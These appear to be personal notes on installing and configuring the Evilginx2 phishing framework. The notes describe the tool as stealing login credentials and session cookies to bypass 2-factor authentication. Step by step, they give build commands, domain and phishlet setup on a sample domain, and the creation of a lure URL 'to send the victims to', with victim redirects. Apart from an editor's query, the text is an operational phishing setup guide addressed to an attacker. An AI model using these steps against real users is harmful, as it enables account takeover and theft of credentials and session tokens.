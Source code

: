 

* https://github.com/kgretzky/evilginx2


### Introduction:

Evilginx2 is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection. 
What is means is Evilginx2 is siting in the communication between our victim and the actual legitimate login page capturing all traffic passed through. This means we can also capture the session cookies and inout them into our own browser allowing us to successfully authenticate ourselves as the victim, when it is time to login with the credentials we have aquired.


### Configuring EvilGinx2:

```
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2                                       
make           
sudo cp bin/evilginx /usr/bin
sudo cp -r phishlets/ /usr/share/evilginx/
sudo cp -r templates /usr/share/evilginx/
sudo evilginx
```

Run evilginx2 and if the phishlets have been loaded successfully you should see the tool run. 

Now you need to edit the config and ``` add your domain and IP and the redirect URL. ```

[ Any scanners scanning your domain without the ```lure parameter``` will automatically get redirected to the "redirect_url" you set up here ]

We also need to setup a TLS Certificate for our domain. the Evilginx tool can handle all that for us. 

ENTER:

``` 
: phishlets hostname therecap
therecap.tk
: phishlets enable therecap
```

***

### Creating Evilginx2 Lure:

The next task is to created a ```lure```, which would be the phishing URL to send the victims to.

```
: lures create therecap
[04:31:37] [inf] created lure with ID:
1

: lures get-url 1
https://www.therecap.tk/BMvzCci()y     (WHAT IS THIS URL?)
```

We also need to add the URL the victim will be redirected to AFTER logging in. This is different from the ```config redirect_url``` as that one is for the scanners and unintended users and this one is for the victims post-login.

```
: lures edit 1 redirect_url
https://www.therecap.org/
[04:46:06] [inf] redirect_url =
'https://www.therecap.org/'
```

Once that is in you can navigate to the lure URL to make sure its works properly.

NOTE: You can run EVILGINX2 in a tmux session so that when you quit your ssh connection, the tool keeps on running.



***


